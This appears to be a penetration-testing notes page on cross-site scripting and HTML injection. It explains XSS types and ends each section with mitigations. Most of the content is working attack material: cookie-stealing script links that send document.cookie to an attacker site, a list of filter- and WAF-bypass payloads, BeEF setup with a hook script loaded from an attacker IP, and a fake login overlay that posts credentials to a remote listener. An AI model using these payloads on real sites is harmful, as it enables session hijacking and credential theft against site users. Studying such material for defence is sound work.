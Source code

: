 # HTML | XSS

## XSS

{% hint style="info" %}
Cross-Site Scripting (XSS) attacks are a type of **injection**, in which **malicious scripts** are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send **malicious code**, generally in the form of a browser side script, to a different end user.
{% endhint %}

### Types

#### **Stored XSS**&#x20;

{% hint style="info" %}
The injected script is permanently stored on the target servers, such as in a database, in a **message** forum, visitor log, **comment** **field**, etc. The victim then retrieves the malicious script from the server when it requests the stored information.
{% endhint %}

#### **Reflected XSS**&#x20;

{% hint style="info" %}
Reflected attacks are those where the injected script is **reflected** off the web server, such as in an **error message**, **search result**, or any other response that includes some or all of the input sent to the server as part of the request.&#x20;
{% endhint %}

Let’s say a web page has a search box, which displays the search text alongside the search results as follows :

`Your search results for “searchtext”:`

The web page also uses the **HTTP GET request method** to embed the user’s input data to the query string of the URL as follows:&#x20;

`https://example.com/action.php?query=searchtext`

If the search box is susceptible to a non-persistent XSS attack, a cybercriminal can send a malicious link to an unsuspecting user and exploit the vulnerability.&#x20;

This is how the script-injected link could look like:

`https://example.com/action.php?query=<script>document.location=’https://xssattacksite.com/log.php?c=’ + encodeURIComponent(document.cookie)</script>`

#### **DOM XSS**&#x20;

{% hint style="info" %}
DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.
{% endhint %}

Let’s take the following example of a web page that utilizes JavaScript to manipulate a DOM element:

`let searchText = document.getElementById(‘searchText’).value;`\
`let resultsData = document.getElementById(‘resultsData’);`\
`resultsData.innerHTML = ‘Your search results for: ‘ + searchText;`

As you can see on the code snippet above, the value from a user input field is grabbed and appended to an element within the web page’s HTML. If an attacker can control this value, they can craft a devious value that forces their own code to be executed.

Here is an example **** :

`Your search results for: “<script>document.location=’https://xssattacksite.com/log.php?c=’ + document.cookie</script>”`

### Payloads

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}
XSS cheatsheet
{% endembed %}

{% embed url="https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt" %}
XSS payloads
{% endembed %}

**Examples**

```html
<!-- put this into a form field or search bar-->
<img src=q onError=prompt('!XSS!'); />
<script>alert("!XSS!")</script>
<script>print()</script>

<!-- encoded -->
%uff1cscript%uff1eprompt("!XSS!");%uff1c/script%uff1e&
%253Cscript%253Eprint()%253C%252Fscript%253E
%253Cimg%2520src%253Dq%2520onError%253Dalert(%2522XSS%2522)%253B%2520%252F%253E

<!-- Bypassing First Filter -->
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<svg%09onload=alert(1)>
<svg onload%09=alert(1)>
<svg%09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload+0B=alert(1)>
<script>\u0061lert(1)</script>
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>
<img src=x onerror="\u0061lert"/>
<img src=x onerror="eval('\141lert(1)')"/>
<img src=x onerror="eval('\x61lert(1)')"/>

 <!-- Javascript Keyword is blocked-->
<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;alert(1)">
<object data="java  
    script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript;alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;74;&#x3A;alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

```

### N.B.

#### ~~alert()~~ print()

Use **print** instead of alert

{% embed url="https://portswigger.net/research/alert-is-dead-long-live-print" %}

### Beef

#### Install & Config

```bash
git clone https://github.com/beefproject/beef.git
./install
nano config.yaml # change username and password
./beef
```

#### Control

```html
<!-- insert this into xss vulnerable field : -->
<script src="http://ip_hacker:3000/hook.js"></script>

<!-- use waf bypass -->
```

### Mitigations

* Developers should implement a **whitelist** of allowable inputs, and if not possible then there should be some input validations and the data entered by the user must be filtered as much as possible.
* Output **encoding** is the most reliable solution to combat XSS i.e. it takes up the script code and thus converts it into the plain text.
* A **WAF** _(Web Application Firewall)_ should be implemented as it somewhere protects the application from XSS attacks.
* Use of **HTTPOnly Flags** on the **Cookies**.
* The developers can use **Content Security Policy (CSP)** to reduce the severity of any XSS vulnerabilities.

## HTML Injection

### Check

* **Form fields**
  * Exploit with _BurpSuite_ using URL Encode

### Payloads

```html
<!-- URL ENCODE THESE & put them in a form field -->
<b>test</b>
<a href="https://google.com">test</a>
<img src= "https://www.ignitetechnologies.in/img/logo-blue-white.png">

<!-- add a form field to website -->
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index:1000; background-color:white; padding:1em;">Please login with valid 
credentials:<br><form name="login" action="http://192.168.0.7:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td>
<td><input type="text" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit" value="Login"/></td></tr>
</table></form>
```

### Mitigations

* The developer should set up his HTML script which filters the meta-characters from user inputs.
* The developer should implement functions to validate the user inputs such that they do not contain any specific tag that can lead to **virtual defacement.**

